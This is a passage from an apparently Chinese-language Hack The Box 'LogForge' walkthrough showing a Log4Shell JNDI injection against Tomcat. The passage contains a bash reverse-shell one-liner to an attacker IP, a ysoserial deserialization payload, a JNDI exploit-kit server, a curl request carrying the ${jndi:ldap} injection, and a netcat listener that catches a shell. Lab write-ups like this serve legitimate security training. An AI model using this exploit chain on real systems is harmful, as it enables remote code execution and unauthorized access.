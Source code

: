 ```
bash -i >& /dev/tcp/10.10.14.12/1337 0>&1
```

使用 YSOSerial 再次创建我们的有效负载:

```
┌──(root💀kali)-[~/htb/logforge]
└─# java -jar ysoserial-modified/target/ysoserial-modified.jar CommonsCollections5 bash 'bash -i >& /dev/tcp/10.10.14.12/1337 0>&1' > shell.ser
```

停止 tcpdump 并在端口 1337 上启动 netcat 侦听。停止 JNDI 利用工具包，并开始再次与我们新的反向外壳有效载荷:

```
┌──(root💀kali)-[~/htb/logforge]
└─# java -jar JNDI-Exploit-Kit/target/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -P ysoserial-modified/target/shell.ser -L 10.10.14.12:389
```

记下新的目标 URL:

```
Target environment(Build in JDK 1.5 whose trustURLCodebase is true):
rmi://10.10.14.12:1099/ry0f9s
ldap://10.10.14.12:389/ry0f9s
```

像我们之前做的一样，使用 curl 来触发攻击:

```
┌──(root💀kali)-[~/htb/logforge]
└─# curl "http://10.10.11.138/pencer/..;/manager/html/expire?path=/" --data-binary "idle=\${jndi:ldap://10.10.14.12:389/ry0f9s}" 
-H "Authorization: Basic dG9tY2F0OnRvbWNhdA=="
```

# 反向外壳

如果一切顺利，切换到 nc 监听器来查看我们的 shell 连接:

```
┌──(root💀kali)-[~]
└─# nc -nlvp 1337
listening on [any] 1337 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.11.138] 49842
bash: cannot set terminal process group (776): Inappropriate ioctl for device
bash: no job control in this shell
tomcat@LogForge:/var/lib/tomcat9$
```

在我们继续之前，让我们对 shell 进行通常的升级，以使它更容易使用:

```
tomcat@LogForge:/var/lib/tomcat9$ python3 -c 'import pty;pty.spawn("/bin/bash")'
tomcat@LogForge:/var/lib/tomcat9$ ^Z
zsh: suspended  nc -nlvp 1337
┌──(root💀kali)-[~]
└─# stty raw -echo; fg
[1]  + continued  nc -nlvp 1337
tomcat@LogForge:/var/lib/tomcat9$ stty rows 52 cols 237
tomcat@LogForge:/var/lib/tomcat9$ export TERM=xterm
```
